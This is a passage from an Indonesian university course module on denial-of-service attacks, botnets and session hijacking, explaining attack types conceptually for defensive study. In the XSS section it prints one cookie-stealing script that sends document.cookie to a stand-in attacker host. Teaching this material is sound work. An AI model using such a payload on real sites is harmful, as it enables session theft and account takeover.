



# MODUL PEMBELAJARAN PERTEMUAN 10
# DENIAL OF SERVICE DAN SESSION HIJACKING

## INFORMASI MATA KULIAH

**Mata Kuliah:** Pengantar Keamanan Siber  
**Program Studi:** Informatika  
**Institusi:** Universitas Pertahanan RI  
**Pertemuan:** 10 (Sepuluh)

[Slide untuk Pertemuan Ini](https://anindito.github.io/intro/10/)
## CAPAIAN PEMBELAJARAN

### CPMK yang Dicapai
CPMK 5: Mahasiswa mampu menganalisis serangan umum pada sistem, jaringan, dan aplikasi web serta merumuskan strategi mitigasinya.

### Sub-CPMK
- Sub-CPMK 5.10: Mahasiswa mampu menjelaskan konsep dan jenis-jenis serangan DoS dan DDoS
- Sub-CPMK 5.11: Mahasiswa mampu menjelaskan konsep session hijacking
- Sub-CPMK 5.12: Mahasiswa mampu menjelaskan strategi mitigasi serangan DoS/DDoS dan session hijacking

### Tujuan Pembelajaran
Setelah mempelajari modul ini, mahasiswa diharapkan mampu:
1. Memahami konsep dasar serangan Denial of Service dan perbedaannya dengan Distributed Denial of Service
2. Mengidentifikasi berbagai jenis serangan DoS dan mekanisme kerjanya
3. Menjelaskan arsitektur serangan DDoS dan peran botnet
4. Memahami konsep session dalam komunikasi web dan bagaimana session dapat dibajak
5. Mengidentifikasi berbagai teknik session hijacking
6. Merumuskan strategi deteksi dan mitigasi terhadap serangan DoS/DDoS dan session hijacking

---

## PENDAHULUAN

Dalam dunia yang semakin terhubung melalui internet, ketersediaan layanan digital menjadi sangat krusial. Bayangkan jika tiba-tiba website bank yang biasa kita gunakan tidak bisa diakses, atau aplikasi e-commerce tidak merespons saat kita ingin berbelanja. Situasi seperti ini bisa terjadi karena serangan yang disebut Denial of Service atau DoS.

Di sisi lain, saat kita berinteraksi dengan website, sebenarnya terjadi pertukaran informasi yang kompleks untuk menjaga "ingatan" website terhadap siapa kita. Bayangkan saat kita login ke media sosial, website tersebut harus mengingat bahwa kita sudah login agar tidak perlu login ulang setiap kali membuka halaman baru. Informasi "ingatan" inilah yang disebut session, dan sayangnya bisa menjadi target serangan yang disebut session hijacking.

Pada pertemuan ini, kita akan mempelajari kedua jenis serangan tersebut. Pertama, kita akan membahas bagaimana penyerang dapat membuat layanan online menjadi tidak tersedia melalui serangan DoS dan DDoS. Kemudian, kita akan mempelajari bagaimana penyerang dapat mengambil alih sesi pengguna yang sah untuk melakukan tindakan jahat. Terakhir, kita akan membahas berbagai strategi untuk melindungi sistem dari kedua jenis serangan ini.

Pemahaman tentang serangan-serangan ini penting bagi kita sebagai calon profesional keamanan siber, karena kedua jenis serangan ini termasuk yang paling sering terjadi dan dapat menimbulkan kerugian besar baik finansial maupun reputasi.

---

## BAGIAN 1: SERANGAN DENIAL OF SERVICE (DoS)

### 1.1 Konsep Dasar Denial of Service

Denial of Service atau DoS adalah jenis serangan siber yang bertujuan untuk membuat suatu layanan atau sumber daya komputer menjadi tidak tersedia bagi pengguna yang sah. Istilah "denial of service" sendiri berarti "penolakan layanan", yang menggambarkan kondisi di mana pengguna yang berhak mengakses suatu layanan ditolak atau tidak dapat menggunakan layanan tersebut.

Untuk memahami konsep ini dengan lebih mudah, mari kita gunakan analogi sederhana. Bayangkan sebuah restoran kecil yang hanya memiliki 10 meja. Restoran ini biasanya melayani pelanggan dengan baik karena jumlah pengunjung tidak pernah melebihi kapasitas. Namun suatu hari, seseorang dengan niat jahat mengatur agar 100 orang datang sekaligus ke restoran tersebut hanya untuk duduk tanpa memesan apa-apa. Akibatnya, pelanggan asli yang ingin makan tidak mendapat tempat duduk. Inilah yang terjadi dalam serangan DoS terhadap sistem komputer.

Dalam konteks teknologi informasi, serangan DoS dapat dilakukan dengan berbagai cara. Penyerang dapat membanjiri server dengan permintaan data yang sangat banyak sehingga server kewalahan dan tidak mampu melayani permintaan pengguna yang sah. Penyerang juga dapat mengeksploitasi kelemahan dalam sistem untuk membuat sistem crash atau berhenti beroperasi. Ada pula serangan yang menghabiskan sumber daya sistem seperti bandwidth, memori, atau kapasitas pemrosesan sehingga tidak tersisa untuk pengguna legitimate.

Yang membedakan serangan DoS dengan jenis serangan lainnya adalah tujuan utamanya. Serangan DoS tidak bertujuan untuk mencuri data, merusak sistem secara permanen, atau mendapatkan akses tidak sah. Tujuan utamanya adalah membuat layanan tidak tersedia. Meskipun demikian, dampak dari serangan DoS bisa sangat signifikan, terutama untuk layanan-layanan kritis seperti perbankan online, e-commerce, atau layanan kesehatan.

Serangan DoS dapat dibedakan berdasarkan sumbernya menjadi dua kategori utama. Pertama adalah serangan DoS sederhana yang berasal dari satu sumber atau satu komputer penyerang. Kedua adalah Distributed Denial of Service atau DDoS yang melibatkan banyak komputer atau sumber serangan secara bersamaan. Serangan DDoS jauh lebih berbahaya dan sulit ditangani karena melibatkan ribuan bahkan jutaan perangkat yang menyerang secara simultan.

### 1.2 Perbedaan DoS dan DDoS

Memahami perbedaan antara DoS dan DDoS sangat penting karena strategi mitigasi untuk keduanya berbeda. Serangan DoS tradisional berasal dari satu lokasi atau satu perangkat. Misalnya, seorang penyerang menggunakan satu komputer pribadinya untuk mengirimkan permintaan dalam jumlah besar ke server target. Karena berasal dari satu sumber, serangan DoS tradisional relatif lebih mudah diidentifikasi dan diblokir. Administrator sistem dapat dengan mudah mengenali alamat IP penyerang dan memblokir lalu lintas dari alamat tersebut.

Namun, serangan DDoS jauh lebih kompleks dan berbahaya. DDoS menggunakan banyak perangkat yang tersebar di berbagai lokasi geografis untuk menyerang target secara bersamaan. Perangkat-perangkat ini biasanya merupakan komputer atau perangkat Internet of Things (IoT) yang telah terinfeksi malware dan dikendalikan oleh penyerang tanpa sepengetahuan pemiliknya. Kumpulan perangkat yang terinfeksi ini disebut botnet.

Bayangkan perbedaan antara satu orang yang mencoba mendorong pintu besar versus seratus orang yang mendorong pintu yang sama secara bersamaan. Tentu jauh lebih mudah menahan satu orang dibandingkan seratus orang. Inilah yang terjadi dalam serangan DDoS. Karena serangan berasal dari ribuan alamat IP yang berbeda, sangat sulit untuk memblokir semuanya. Bahkan jika berhasil memblokir beberapa alamat IP, masih ada ribuan alamat lain yang terus menyerang.

Kekuatan serangan DDoS juga jauh lebih besar dibandingkan DoS. Jika serangan DoS tradisional mungkin hanya mampu mengirimkan beberapa megabit data per detik, serangan DDoS dapat menghasilkan ratusan gigabit per detik. Untuk memberikan gambaran, bandwidth internet rata-rata rumah tangga di Indonesia adalah sekitar 20-50 Mbps. Serangan DDoS besar bisa mencapai 1000 Gbps atau 1 Terabit per detik, yang setara dengan 20.000 koneksi internet rumahan yang bekerja secara bersamaan.

Aspek lain yang membuat DDoS lebih berbahaya adalah sifatnya yang terdistribusi. Karena serangan berasal dari banyak lokasi geografis yang berbeda, penyerang dapat menargetkan infrastruktur jaringan dari berbagai arah sekaligus. Ini membuat pertahanan menjadi jauh lebih kompleks karena tidak cukup hanya memblokir satu titik masuk, tetapi harus menangani serangan dari berbagai arah secara simultan.

Dari perspektif hukum dan investigasi, serangan DDoS juga lebih sulit dilacak. Dalam serangan DoS sederhana, investigator dapat langsung melacak ke komputer penyerang. Namun dalam DDoS, komputer-komputer yang melakukan serangan adalah korban yang terinfeksi malware, bukan penyerang sebenarnya. Penyerang yang sebenarnya mengendalikan botnet dari jarak jauh, seringkali menggunakan teknik-teknik untuk menyembunyikan identitas dan lokasi mereka.



### 1.3 Jenis-Jenis Serangan DoS

Serangan DoS dapat dikategorikan berdasarkan layer atau lapisan dalam model jaringan yang diserang. Pemahaman tentang berbagai jenis serangan ini penting agar kita dapat merancang pertahanan yang tepat. Mari kita bahas jenis-jenis serangan DoS yang paling umum terjadi.

#### 1.3.1 Volumetric Attacks (Serangan Berbasis Volume)

Jenis serangan ini adalah yang paling mudah dipahami karena konsepnya sederhana: membanjiri target dengan volume lalu lintas yang sangat besar sehingga menghabiskan bandwidth yang tersedia. Bayangkan sebuah pipa air yang hanya dapat mengalirkan air dengan kecepatan tertentu. Jika kita memaksa memasukkan air dengan volume jauh lebih besar dari kapasitas pipa, pipa tersebut akan tersumbat dan air tidak dapat mengalir dengan lancar.

UDP Flood adalah salah satu contoh serangan volumetric yang paling umum. UDP atau User Datagram Protocol adalah protokol komunikasi yang tidak memerlukan koneksi atau konfirmasi pengiriman. Dalam serangan UDP flood, penyerang mengirimkan paket UDP dalam jumlah sangat besar ke port-port acak pada server target. Server harus memeriksa setiap paket yang masuk untuk menentukan aplikasi mana yang harus menerimanya. Jika tidak ada aplikasi yang mendengarkan pada port tersebut, server harus mengirimkan paket ICMP destination unreachable kembali ke pengirim. Proses ini menghabiskan sumber daya sistem dan bandwidth jaringan.

ICMP Flood atau yang sering disebut Ping Flood juga termasuk serangan volumetric. ICMP atau Internet Control Message Protocol biasanya digunakan untuk mengirim pesan kesalahan dan informasi operasional dalam jaringan. Perintah "ping" yang sering kita gunakan untuk mengecek koneksi jaringan menggunakan protokol ICMP. Dalam serangan ICMP flood, penyerang mengirimkan permintaan ICMP echo request dalam jumlah sangat besar. Server target harus merespons setiap permintaan dengan ICMP echo reply, yang menghabiskan bandwidth dan sumber daya komputasi.

Amplification Attack adalah variasi serangan volumetric yang lebih canggih. Dalam serangan ini, penyerang memanfaatkan server-server publik tertentu untuk memperbesar volume serangan. Caranya adalah dengan mengirimkan permintaan kecil ke server publik dengan alamat sumber yang dipalsukan menjadi alamat target. Server publik kemudian mengirimkan respons yang jauh lebih besar ke target. Misalnya, DNS amplification memanfaatkan server DNS. Penyerang mengirimkan query DNS kecil (60 byte) yang meminta informasi lengkap tentang suatu domain. Server DNS merespons dengan jawaban yang bisa mencapai 4000 byte. Dengan rasio amplifikasi hingga 70 kali, penyerang dapat menghasilkan serangan yang sangat besar hanya dengan bandwidth kecil.

#### 1.3.2 Protocol Attacks (Serangan Berbasis Protokol)

Jenis serangan ini memanfaatkan kelemahan dalam protokol komunikasi jaringan atau cara protokol diimplementasikan. Berbeda dengan serangan volumetric yang hanya membanjiri dengan data, serangan protocol berusaha mengeksploitasi cara sistem menangani komunikasi jaringan.

SYN Flood adalah contoh klasik serangan protocol yang memanfaatkan mekanisme TCP three-way handshake. Untuk memahaminya, kita perlu tahu bahwa koneksi TCP dimulai dengan proses "jabat tangan" tiga langkah. Pertama, client mengirim paket SYN. Kedua, server merespons dengan SYN-ACK. Ketiga, client mengirim ACK untuk menyelesaikan koneksi. Dalam serangan SYN flood, penyerang mengirimkan banyak paket SYN tetapi tidak pernah mengirimkan ACK untuk menyelesaikan koneksi. Server akan menunggu dan menyimpan informasi koneksi setengah terbuka ini dalam memori. Karena ada batasan jumlah koneksi setengah terbuka yang dapat ditangani, server akhirnya kehabisan memori dan tidak dapat menerima koneksi baru dari pengguna yang sah.

Ping of Death adalah serangan yang mengeksploitasi batasan ukuran paket IP. Protokol IP memiliki batasan ukuran maksimum paket yaitu 65.535 byte. Dalam serangan Ping of Death, penyerang mengirimkan paket ICMP echo request yang ukurannya melebihi batas maksimum dengan cara memfragmentasi paket menjadi beberapa bagian. Ketika server target mencoba menyusun kembali fragmen-fragmen ini, terjadi buffer overflow yang dapat menyebabkan sistem crash atau restart. Meskipun sebagian besar sistem modern sudah dipatch untuk menangani serangan ini, masih ada sistem lama yang rentan.

Smurf Attack adalah serangan yang mengombinasikan IP spoofing dengan ICMP. Penyerang mengirimkan paket ICMP echo request ke alamat broadcast jaringan dengan alamat sumber yang dipalsukan menjadi alamat target. Semua host dalam jaringan tersebut akan merespons permintaan ICMP dan mengirimkan reply ke target. Jika jaringan yang digunakan untuk amplifikasi cukup besar, target akan dibanjiri dengan respons ICMP dari banyak host sekaligus.

#### 1.3.3 Application Layer Attacks (Serangan Lapisan Aplikasi)

Serangan lapisan aplikasi adalah jenis serangan yang paling sulit dideteksi karena terlihat seperti lalu lintas normal. Serangan ini menargetkan aplikasi web atau layanan aplikasi lainnya dengan permintaan yang sah tetapi dirancang untuk menghabiskan sumber daya server.

HTTP Flood adalah serangan lapisan aplikasi yang paling umum. Dalam serangan ini, penyerang mengirimkan permintaan HTTP GET atau POST yang tampak sah ke web server. Permintaan ini bisa berupa permintaan halaman web, download file, atau pencarian database. Yang membuat serangan ini berbahaya adalah bahwa permintaan HTTP flood tidak mudah dibedakan dari lalu lintas pengguna normal. Perbedaannya hanya pada volume dan frekuensi permintaan yang tidak wajar.

Slowloris adalah serangan yang lebih canggih karena tidak memerlukan bandwidth besar. Serangan ini bekerja dengan cara membuka banyak koneksi HTTP ke server target dan menjaga koneksi tersebut tetap terbuka selama mungkin. Caranya adalah dengan mengirimkan partial HTTP request secara perlahan-lahan. Server web biasanya menunggu hingga seluruh request diterima sebelum memprosesnya. Dengan mengirimkan request tidak lengkap dan mengirimkan byte tambahan sesekali untuk menjaga koneksi tetap hidup, penyerang dapat menghabiskan semua koneksi yang tersedia pada server dengan bandwidth minimal.

Application-Specific Attacks menargetkan kelemahan spesifik dalam aplikasi tertentu. Misalnya, pada aplikasi pencarian, penyerang dapat mengirimkan query yang sangat kompleks yang memerlukan banyak sumber daya database untuk diproses. Pada sistem login, penyerang dapat memicu proses otentikasi berulang kali yang memerlukan komputasi intensif seperti hashing password. Pada website dengan fitur upload, penyerang dapat mengirimkan banyak file besar secara bersamaan untuk menghabiskan ruang penyimpanan dan bandwidth.



### 1.4 Arsitektur DDoS dan Botnet

Untuk melakukan serangan DDoS yang efektif, penyerang memerlukan infrastruktur yang kompleks. Infrastruktur ini umumnya berbentuk botnet, yaitu jaringan komputer yang terinfeksi malware dan dapat dikendalikan dari jarak jauh. Mari kita pelajari bagaimana arsitektur serangan DDoS bekerja.

Dalam arsitektur DDoS klasik, terdapat beberapa komponen utama. Pertama adalah attacker atau penyerang, yaitu orang atau kelompok yang merencanakan dan melakukan serangan. Penyerang biasanya tidak langsung menggunakan komputernya sendiri untuk menyerang, melainkan mengendalikan komputer-komputer lain.

Komponen kedua adalah master atau command and control server (C&C server). Ini adalah server yang dikendalikan langsung oleh penyerang dan berfungsi sebagai pusat komando untuk mengendalikan seluruh botnet. Penyerang mengirimkan perintah serangan ke C&C server, yang kemudian meneruskan perintah tersebut ke semua bot dalam jaringan. Penggunaan C&C server memungkinkan penyerang tetap anonim karena identitas aslinya tersembunyi di balik server-server ini.

Komponen ketiga adalah bot atau zombie, yaitu komputer-komputer yang telah terinfeksi malware dan dapat dikendalikan dari jarak jauh. Komputer-komputer ini biasanya milik pengguna biasa yang tidak sadar bahwa perangkat mereka telah disusupi. Bot ini yang akan melakukan serangan aktual ke target. Kumpulan bot ini disebut botnet. Ukuran botnet bisa bervariasi dari ribuan hingga jutaan perangkat.

Proses pembentukan botnet dimulai dengan penyebaran malware. Penyerang menyebarkan malware melalui berbagai cara seperti email phishing, exploit kit pada website yang telah disusupi, atau melalui software bajakan. Ketika pengguna yang tidak curiga menjalankan malware tersebut, komputer mereka terinfeksi dan menjadi bagian dari botnet. Malware botnet dirancang untuk berjalan diam-diam di background tanpa menimbulkan gejala yang mencurigakan sehingga pengguna tidak menyadari komputernya telah terinfeksi.

Setelah komputer terinfeksi, malware akan menghubungi C&C server untuk mendaftarkan diri dan menunggu instruksi. Komunikasi antara bot dan C&C server sering menggunakan teknik-teknik untuk menghindari deteksi, seperti enkripsi komunikasi, menggunakan protokol yang tampak normal, atau domain generation algorithm (DGA) yang menghasilkan nama domain secara otomatis untuk menghindari pemblokiran.

Ketika penyerang ingin melakukan serangan DDoS, mereka mengirimkan perintah ke C&C server yang kemudian mendistribusikan perintah tersebut ke semua bot dalam jaringan. Perintah ini berisi informasi seperti target yang akan diserang, jenis serangan yang akan dilakukan, durasi serangan, dan parameter-parameter lain. Semua bot kemudian secara bersamaan mulai mengirimkan lalu lintas ke target, menciptakan serangan DDoS yang massive.

Yang membuat DDoS sangat efektif adalah sifat terdistribusinya. Target tidak hanya menerima serangan dari satu arah, tetapi dari ribuan atau jutaan arah yang berbeda secara bersamaan. Ini membuat sangat sulit untuk memblokir serangan karena harus memblokir ribuan alamat IP. Bahkan jika berhasil memblokir sebagian bot, masih banyak bot lain yang terus menyerang.

Dalam perkembangan terkini, botnet tidak hanya terdiri dari komputer desktop atau laptop. Internet of Things (IoT) telah menjadi target baru untuk rekrutmen botnet. Perangkat IoT seperti kamera keamanan, router, smart TV, dan perangkat smart home lainnya sering memiliki keamanan yang lemah. Banyak dari perangkat ini menggunakan password default yang mudah ditebak atau memiliki kerentanan yang tidak dipatch. Botnet Mirai yang terkenal pada tahun 2016 berhasil menginfeksi ratusan ribu perangkat IoT dan melakukan serangan DDoS terbesar pada saat itu dengan mencapai 1 Tbps.


### 1.5 Motivasi dan Dampak Serangan DoS/DDoS

Memahami motivasi di balik serangan DoS/DDoS penting untuk mengantisipasi siapa yang mungkin menyerang dan mengapa. Berbagai pihak dengan berbagai motivasi dapat melakukan serangan ini.

Motivasi pertama adalah sabotase kompetitor bisnis. Dalam dunia bisnis online yang kompetitif, beberapa pihak tidak bertanggung jawab mungkin melakukan serangan DDoS terhadap kompetitor untuk merusak reputasi atau menyebabkan kerugian finansial. Misalnya, menyerang website e-commerce kompetitor saat periode penjualan penting seperti harbolnas atau black friday dapat menyebabkan kerugian jutaan hingga miliaran rupiah.

Pemerasan atau ransomware DDoS adalah motivasi lain yang semakin umum. Penyerang melakukan serangan DDoS kecil sebagai demonstrasi, kemudian mengirimkan ancaman untuk melakukan serangan yang lebih besar kecuali korban membayar sejumlah uang, biasanya dalam bentuk cryptocurrency. Beberapa organisasi memilih membayar karena biaya downtime lebih besar daripada uang tebusan yang diminta.

Hacktivism atau aktivisme digital juga sering menggunakan DDoS sebagai bentuk protes. Kelompok aktivis seperti Anonymous pernah melakukan serangan DDoS terhadap website pemerintah atau korporasi sebagai bentuk protes terhadap kebijakan atau tindakan yang mereka anggap tidak adil. Meskipun motivasinya mungkin politik atau ideologis, dampaknya tetap merugikan.

Persaingan di dunia gaming online juga memicu serangan DoS. Pemain yang tidak sportif mungkin melakukan serangan DoS terhadap pemain lain atau server game untuk mendapatkan keuntungan tidak fair dalam kompetisi. Serangan terhadap layanan gaming seperti PlayStation Network atau Xbox Live telah terjadi beberapa kali dan mengganggu jutaan pemain.

Dampak dari serangan DoS/DDoS bisa sangat signifikan. Dampak finansial langsung termasuk kehilangan revenue selama layanan down, biaya untuk mitigasi serangan, dan biaya recovery sistem. Untuk bisnis e-commerce besar, downtime satu jam bisa berarti kehilangan puluhan hingga ratusan juta rupiah. Dampak tidak langsung termasuk kerusakan reputasi brand, hilangnya kepercayaan pelanggan, dan potensi kehilangan pelanggan ke kompetitor.

Dampak operasional juga tidak kalah serius. Serangan DDoS dapat mengganggu operasi bisnis normal, memaksa tim IT bekerja lembur untuk menangani serangan, dan mengalihkan sumber daya dari proyek-proyek produktif lainnya. Untuk layanan kritis seperti perbankan atau kesehatan, downtime dapat menyebabkan gangguan serius pada layanan publik.

---

## BAGIAN 2: SESSION HIJACKING

### 2.1 Konsep Dasar Session Management

Sebelum membahas session hijacking, kita perlu memahami terlebih dahulu apa itu session dan mengapa session management penting dalam aplikasi web modern. Session adalah mekanisme untuk menjaga state atau kondisi interaksi antara pengguna dan aplikasi web selama periode waktu tertentu.

Untuk memahami konsep session, mari kita gunakan analogi sederhana. Bayangkan Anda pergi ke perpustakaan untuk meminjam buku. Saat pertama kali datang, Anda menunjukkan kartu anggota kepada petugas. Petugas mencatat bahwa Anda sudah login dan memberikan Anda kertas tanda masuk. Selama Anda berada di perpustakaan, Anda tidak perlu menunjukkan kartu anggota lagi setiap kali ingin mengakses rak buku atau membaca di ruang baca. Cukup tunjukkan kertas tanda masuk tersebut. Kertas tanda masuk ini analog dengan session dalam aplikasi web.

HTTP, protokol yang digunakan untuk web, bersifat stateless, artinya setiap permintaan HTTP dianggap independen dan tidak ada hubungan dengan permintaan sebelumnya. Ini menimbulkan masalah untuk aplikasi web modern yang memerlukan pengguna untuk login dan menjaga status login tersebut saat berpindah halaman. Tanpa session management, pengguna harus login ulang setiap kali membuka halaman baru, yang jelas sangat tidak praktis.

Untuk mengatasi masalah ini, dikembangkan mekanisme session management. Ketika pengguna berhasil login, server membuat session baru dan memberikan session identifier (session ID) yang unik kepada pengguna. Session ID ini seperti nomor tiket atau tanda pengenal sementara. Session ID kemudian disimpan di browser pengguna, biasanya dalam bentuk cookie. Setiap kali pengguna membuka halaman baru atau melakukan aksi di website, browser secara otomatis mengirimkan session ID bersama permintaan HTTP. Server memeriksa session ID ini untuk mengetahui siapa penggunanya dan status login mereka.

Di sisi server, informasi session disimpan dalam session storage. Ini bisa berupa file di filesystem, database, atau sistem cache seperti Redis. Informasi yang disimpan dalam session bisa berupa user ID, permission, preferensi pengguna, isi shopping cart, dan data-data lain yang perlu diingat sepanjang sesi pengguna.

Session memiliki lifecycle atau siklus hidup. Session dimulai saat pengguna login atau mengakses aplikasi untuk pertama kali. Session tetap aktif selama pengguna berinteraksi dengan aplikasi. Session berakhir ketika pengguna logout secara eksplisit, atau ketika periode timeout tercapai karena tidak ada aktivitas dalam waktu tertentu. Manajemen lifecycle session yang baik penting untuk keamanan dan efisiensi sistem.

### 2.2 Jenis-Jenis Session Hijacking

Session hijacking adalah serangan di mana penyerang berhasil mendapatkan atau mencuri session ID pengguna yang sah dan menggunakannya untuk meniru identitas pengguna tersebut. Dengan session ID yang valid, penyerang dapat mengakses akun korban tanpa perlu mengetahui username dan password. Ada beberapa jenis session hijacking berdasarkan cara penyerang mendapatkan session ID.

#### 2.2.1 Session Sniffing

Session sniffing adalah teknik di mana penyerang menangkap session ID dengan cara menyadap lalu lintas jaringan. Ini paling efektif dilakukan pada jaringan yang tidak terenkripsi atau menggunakan HTTP tanpa SSL/TLS. Bayangkan penyerang duduk di coffee shop yang sama dengan korban dan keduanya terhubung ke WiFi publik yang sama. Jika website yang dikunjungi korban tidak menggunakan HTTPS, session cookie akan dikirim dalam plaintext yang dapat dengan mudah ditangkap menggunakan tools seperti Wireshark.

Dalam skenario ini, penyerang mengoperasikan komputer mereka dalam mode promiscuous, yang memungkinkan network interface menangkap semua paket yang lewat dalam jaringan, bukan hanya paket yang ditujukan untuk komputer tersebut. Software sniffer kemudian menganalisis paket-paket tersebut untuk mencari session cookie atau credential yang dikirim tanpa enkripsi.

Yang membuat session sniffing berbahaya adalah bahwa serangan ini bersifat pasif dan sulit dideteksi. Penyerang tidak melakukan sesuatu yang mencurigakan pada jaringan, mereka hanya "mendengarkan" lalu lintas yang ada. Korban tidak akan menyadari bahwa session ID mereka telah dicuri sampai mereka melihat aktivitas mencurigakan di akun mereka.

#### 2.2.2 Session Sidejacking

Session sidejacking adalah variasi dari session sniffing yang secara khusus menargetkan cookie session. Teknik ini menjadi terkenal dengan tools seperti Firesheep yang dirilis pada tahun 2010. Firesheep adalah plugin Firefox yang dapat menangkap session cookie pengguna lain dalam WiFi publik dan memungkinkan penyerang untuk login sebagai pengguna tersebut hanya dengan satu klik.

Yang membuat session sidejacking mudah dilakukan adalah banyak website pada masa itu menggunakan HTTPS hanya untuk halaman login tetapi tidak untuk halaman-halaman berikutnya. Jadi meskipun username dan password dikirim secara terenkripsi saat login, session cookie yang digunakan setelah login dikirim dalam HTTP biasa yang dapat disadap.

Serangan ini membuka mata banyak perusahaan teknologi besar tentang pentingnya menggunakan HTTPS untuk seluruh website, bukan hanya halaman login. Sekarang website-website besar seperti Facebook, Google, dan Twitter menggunakan HTTPS secara default untuk semua halaman.

#### 2.2.3 Cross-Site Scripting (XSS) untuk Session Hijacking

Cross-Site Scripting atau XSS adalah kerentanan web di mana penyerang dapat menyuntikkan script berbahaya (biasanya JavaScript) ke dalam halaman web yang dipercaya oleh korban. Script ini kemudian dijalankan oleh browser korban dengan privilege yang sama dengan website tersebut, termasuk akses ke cookie.

Dalam konteks session hijacking, penyerang dapat menggunakan XSS untuk mencuri session cookie. Script berbahaya yang disuntikkan dapat membaca cookie session dan mengirimkannya ke server yang dikontrol penyerang. Misalnya, penyerang menemukan kerentanan XSS di forum online. Mereka membuat postingan yang berisi script seperti:

```
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
```

Ketika pengguna lain membaca postingan tersebut, script akan dijalankan dan session cookie mereka akan dikirim ke server penyerang. Dengan cookie tersebut, penyerang dapat membuat request ke website target seolah-olah mereka adalah korban.

